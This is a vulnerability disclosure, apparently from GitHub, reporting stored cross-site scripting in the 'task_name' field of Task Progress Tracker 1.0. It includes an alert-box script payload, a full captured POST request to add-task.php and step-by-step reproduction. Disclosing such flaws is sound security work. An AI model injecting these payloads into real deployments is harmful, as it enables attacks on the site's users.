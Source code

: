 # Task Progress Tracker - Stored Cross-Site Scripting(XSS)

#### Exploit Title: Task Progress Tracker - Stored Cross-Site Scripting

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/17479/task-progress-tracker-using-php-and-mysql-source-code.html

#### Software Link:https://www.sourcecodester.com/download-code?nid=17479&title=Task+Progress+Tracker+Using+PHP+and+MySQL+with+Source+Code

#### Version: Task Progress Tracker 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application.Task Progress Tracker does not filter the content correctly at the "task_name" parameter, resulting in the generation of stored XSS.

#### Payload used:

`<script>alert("a")</script>`

```
POST http://192.168.67.35:8093/endpoint/add-task.php HTTP/1.1
Host: 192.168.67.35:8093
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 93

task_name=%3Cscript%3Ealert%28%22a%22%29%3C%2Fscript%3E&task_priority=Low&task_status=Pending
```

#### Proof of Concept

1、Visit the website, click on "Add Task", and fill in the xss payload in the "Task Name" field

![image](https://github.com/joinia/webray.com.cn/blob/main/Task-Progress-Tracker/images/xss1.png)

2、After successfully adding, re visiting the page will trigger an XSS pop-up window

![image](https://github.com/joinia/webray.com.cn/blob/main/Task-Progress-Tracker/images/xss2.png)

3、The captured post packet is as follows：

![image](https://github.com/joinia/webray.com.cn/blob/main/Task-Progress-Tracker/images/xss3.png)

